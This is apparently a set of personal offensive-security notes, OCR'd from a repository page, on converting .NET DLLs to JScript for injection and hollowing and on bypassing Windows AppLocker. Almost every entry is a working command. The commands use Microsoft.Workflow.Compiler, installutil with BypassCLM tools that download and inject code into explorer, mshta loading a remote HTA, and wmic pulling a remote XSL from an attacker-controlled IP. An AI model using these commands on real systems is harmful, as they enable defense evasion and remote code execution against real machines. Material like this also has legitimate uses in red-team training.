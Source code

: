 ## DotNet2JScript
__Inject__
```
C:\tools\DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJScript.exe \\192.168.26.132\visualstudio\project\out\dll\TestClass1.dll --lang=JScript ==ver=v4 -o \\192.168.26.132\visualstudio\project\out\js\script1.js 
```

__Hollowing__
```
C:\tools\DotNetToJScript-master\DotNetToJScript\bin\Release\DotNetToJScript.exe \\192.168.26.132\visualstudio\project\out\dll\TestClass2.dll --lang=JScript ==ver=v4 -o \\192.168.26.132\visualstudio\project\out\js\script2.js 
```

<details><summary>思路</summary></details>

---
## 绕过Applocker
__Compiler__

http://10.10.15.160/out/other/test.xml

http://10.10.15.160/out/other/test.txt
```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml test.txt
```

__installtuil__

调用powershell下载dll和ps1，net反射dll

http://10.10.15.160/out/exe/BypassCLM.exe 

调用powershell注入explorer

http://10.10.15.160/out/exe/BypassCLM_ps_inject.exe

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <路径>
```
<details><summary>思路</summary></details>


__hta__

http://10.10.15.160/out/other/bypassAppLocker.hta

```
C:\Windows\System32\mshta.exe http://10.10.15.160/out/other/bypassAppLocker.hta
```
<details><summary>其他思路</summary></details>

__xsl__

http://10.10.15.160/out/other/data.xsl

```
wmic process get brief /format:"http://10.10.15.160/out/other/data.xsl
```

